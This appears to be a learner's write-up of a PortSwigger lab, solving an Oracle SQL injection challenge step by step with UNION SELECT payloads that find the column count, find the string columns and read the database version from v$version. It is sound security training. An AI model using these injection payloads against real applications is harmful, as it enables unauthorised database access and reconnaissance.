 # Lab: SQL injection attack, querying the database type and version on Oracle

## Description

*This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.*

*To solve the lab, display the database version string.*

## Hint



On Oracle databases, every **SELECT** statement must specify a table to select **FROM**. If your **UNION SELECT** attack does not query from a table, you will still need to include the **FROM** keyword followed by a ***valid*** table name.

There is a built-in table on Oracle called **dual** which you can use for this purpose. For example: UNION SELECT 'abc' FROM **dual**

For more information, see our [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

---

# STEP 1: Verify SQLi

Normal catagory filter for pets:

![image](https://user-images.githubusercontent.com/83407557/169701761-a8123575-4eb3-48da-8a1a-ddbcd7309205.png)

adding a single quote to see if there is a server error

![image](https://user-images.githubusercontent.com/83407557/169701779-390e9fa8-9355-4b32-a3b9-12dcee189bc7.png)

then adding a comment to see if error goes away

![image](https://user-images.githubusercontent.com/83407557/169701797-bf29afa4-7806-4028-9f60-69f6466d50fe.png)

---
# Step 2: Find the number of columns being returned in the query

Now with previous portswigger labs finding the number of columns was as simple as sending increasing numbers of order by clauses or using union select statements. Since I will be using a union select statement for my attack, I will use that as my example:

```sql
UNION SELECT NULL
UNION SELECT NULL, NULL
UNION SELECT NULL, NULL, NULL
...ect 
```

And I would does this until I found the number of columns; however, with an Oracle database I need to call from a **valid** table as per the hint. With this in mind, the query will actually now need to look like this, calling from a universal table called **dual**

```sql
UNION SELECT NULL FROM dual
UNION SELECT NULL, NULL FROM dual
UNION SELECT NULL, NULL, NULL FROM dual
ect.
```

## checking for 1 column

![image](https://user-images.githubusercontent.com/83407557/169702331-aef8065b-8a39-47db-b01e-f61fbb9095e1.png)

## checking for 2 columns

![image](https://user-images.githubusercontent.com/83407557/169702365-1b72c35a-60b4-45f2-93ef-a711a68d369c.png)

no error means two columns are being returned with our query

---

# STEP 3 Find which columns return string data

## Checking column 1

```sql
UNION SELECT 'abc', NULL FROM dual
```
I see abc returned on the page, letting me know column 1 is returning string data

## checking column 2

*leaving abc in column 1 since I know it will not error the server*

```sql
UNION SELECT 'abc', 'def' FROM dual
```

![image](https://user-images.githubusercontent.com/83407557/169703050-7f13eca4-fdb5-4974-b5cf-a90906090377.png)

with this I see that both columns will return string data.

---

# STEP 4 Display target info

I know that I need to display the version string, let's use the cheatsheat as a ref to see how that is done in oracle:

![image](https://user-images.githubusercontent.com/83407557/169703160-8e87bc12-d1c9-4fe6-b3ac-d0c681d58295.png)

So we could potentially display both of these strings in our two columns:

```sql
UNION SELECT version, banner FROM v$instance, v$version
```
![image](https://user-images.githubusercontent.com/83407557/169703411-9bcf2526-3526-4523-a3aa-050bd0ba1325.png)

Wich solves the lab.
